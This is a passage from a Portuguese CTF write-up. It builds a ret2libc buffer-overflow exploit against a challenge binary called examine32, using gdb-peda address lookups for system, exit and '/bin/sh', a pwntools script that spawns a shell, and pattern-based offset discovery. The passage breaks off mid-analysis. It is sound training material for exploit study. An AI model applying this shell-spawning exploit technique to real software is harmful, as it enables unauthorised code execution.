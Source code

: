 				gdb-peda$ p system  
				$1 = {<text variable, no debug info>} 0xf7e19e70 <system>  
				gdb-peda$ p exit  
				$2 = {<text variable, no debug info>} 0xf7e0cf50 <exit>

Também precisamos encontrar o endereço da string “/bin/sh” :

				gdb-peda$ find “/bin/sh”  
				Searching for ‘/bin/sh’ in: None ranges  
				Found 1 results, display max 1 items:  
				libc : 0xf7f39fcc (“/bin/sh”)

Importante notar que é necessário saber qual a versão do _libc_ na máquina alvo para encontrar as funções desejadas (_system_ por exemplo), calculando os _offsets_ através do endereço base de memória alocada para _libc_. Pois os _offsets_ se diferenciam entre as versões. Aqui tem uma database de versões para ajudar a encontrar : [github.com/niklasb/libc-database](https://github.com/niklasb/libc-database) — Discutirei isso mais a fundo no próximo post.

Vamos começar o esboço do nosso _exploit_.  

from pwn import *

				p = process("./examine32")
				system = 0xf7e19e70
				exit = 0xf7e0cf50
				bash = 0xf7f39fcc
				offset = ???

				exploit = "A"*offset+p32(system)+p32(exit)+p32(bash)+"\xff"

				p.sendline(exploit)
				p.interactive()

Abrimos o processo, declaramos os endereços, montamos o _payload_ e adicionamos o _0xff_ para servir de EOF — Vide linha 9 do código, precisamos do EOF para atingirmos o _return._

Mas ainda não sabemos o _offset,_ vamos descobri-lo usando o GDB :  
_Leia os # , são meus comentários._

				$ gdb ./examine32  
				\[... cortado\]  
				gdb-peda$ pattern\_create 2000 pat   
				Writing pattern of 2000 chars to filename “pat”  
				\# Primeiro criamos um arquivo "pat" de tamanho 2000 com um pattern para podermos identificar exatamente o offset  
				gdb-peda$ r < pat # rodando o programa com o arquivo pat  
				Starting program: /home/vagrant/host/CTF/mentebinaria/examine/examine32 < pat

				Program received signal SIGSEGV, Segmentation fault.  
				\# Recebemos um SIGSEGV, vamos analizar por que.  
				\[... cortado\]  
				\[ — — — — — — — — — — — — — — — — — — -code — — — — — — — — — — — -\]  
				 0xf7e0c5cb <getenv+107>: mov esi,DWORD PTR \[ebp+0x0\]  
				 0xf7e0c5ce <getenv+110>: test esi,esi  
				 0xf7e0c5d0 <getenv+112>: je 0xf7e0c62a <getenv+202>  
				\=> 0xf7e0c5d2 <getenv+114>: cmp di,WORD PTR \[esi\]  # por algum motivo o binário foi parar em getenv e bugou pois o valor de ESI foi sobrescrito  
				\[... cortado\]  
					
